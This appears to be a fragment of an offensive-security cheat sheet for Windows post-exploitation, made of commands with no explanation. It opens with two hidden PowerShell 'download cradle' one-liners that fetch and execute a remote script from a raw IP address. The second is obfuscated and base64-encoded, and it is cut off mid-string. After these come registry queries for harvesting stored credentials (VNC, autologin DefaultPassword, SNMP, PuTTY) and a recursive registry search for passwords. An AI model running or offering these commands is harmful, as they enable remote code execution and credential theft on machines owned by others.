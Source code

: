 \## Version1

```
c:\Windows\System32\cmd.exe /c powershell.exe -w hidden -noni -nop -c "iex(New-Object System.Net.WebClient).DownloadString('http://45.58.34.196:8080/p')"
```

\## Version2

```
c:\windows\system32\cmd.exe /c PowErsHelL.EXE -eXecUtiONPoLICy bYPass -NOPROfilE -WinDoWSTYlE hiDden -EnCodeDcOmmAnd IAAoAE4AZQB3AC0ATwBiAEoAZQBDAFQAIABzAFkAcwB0AEUAbQAuAG4AZQBUAC4AdwBlAGIAQwBsAEkARQBOAFQAKQAuAEQATwBXAG4AbABvAGEAZABGAEkAbABlACgAIAAdIGgAdAB0AHAAcwA6AC8ALwBqAHQAYQBiA
```

### Finding passwords in Registry&#x20;

#### VNC

```
reg query "HKCU\Software\ORL\WinVNC3\Password"
```

#### Windows autologin

```
reg.exe query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\WinLogon" /v DefaultUserName
```

```
reg.exe query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\WinLogon" /v DefaultPassword
```

Or in PS

```
PS > Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' | select "Default*"
```

#### SNMP Paramters

```
reg.exe query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
```

#### Putty

```
reg.exe query "HKCU\Software\SimonTatham\PuTTY\Sessions"
```

#### Search for password in registry

```
reg query HKLM /f password /t REG_SZ /s reg query HKCU /f password /t REG_SZ /s
```

### Finding credential in Groups.xml&#x20;
